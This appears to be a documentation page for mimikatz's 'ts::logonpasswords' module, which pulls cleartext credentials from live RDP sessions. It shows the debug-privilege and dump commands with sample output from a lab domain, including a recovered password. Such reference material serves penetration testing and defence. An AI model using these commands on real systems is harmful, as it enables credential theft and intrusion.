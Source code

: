 # logonpasswords

`ts::logonpasswords` module extracts clear text credentials from RDP running sessions (server side).

It supports RDP clients utilizing [**mstscax.dll**](https://docs.microsoft.com/en-us/windows/win32/termserv/mstscax) like mRemoteNG, Remote Desktop Manager, RDCMan and of course the Windows native one. It also supports X11 RDP clients such as rdesktop and freerdp.

```
mimikatz # privilege::debug
Privilege '20' OK
```

```
mimikatz # ts::logonpasswords
!!! Warning: false positives can be listed !!!

   * Web Credentials? *
   Domain      : hacklab.local
   UserName    : Administrator

         * Marshaled: [BinaryBlob] e7 03 00 00 00 00 00 00 e4 a2 a6 9d 83 c5 bd 0c 3a a7 72 4f 88 dc d3 b4 e0 bf 11 ca 71 11 65 cc 16 c0 58 5a 56 49 1b eb 12 b1 e5 a1 d2 25 e6 8c 08 62 92 aa 04 45 1e 3b
   * Web Credentials? *
   Domain      : hacklab.local
   UserName    : Administrator

         * Marshaled: [BinaryBlob] e7 03 00 00 00 00 00 00 e4 a2 a6 9d 83 c5 bd 0c 3a a7 72 4f 88 dc d3 b4 e0 bf 11 ca 71 11 65 cc 16 c0 58 5a 56 49 1b eb 12 b1 e5 a1 d2 25 e6 8c 08 62 92 aa 04 45 1e 3b
   Domain      : hacklab
   UserName    : Administrator
   Password/Pin: Super_SecretPass1!
```

_(Demonstration target is a Windows Server 2016 Essentials)_

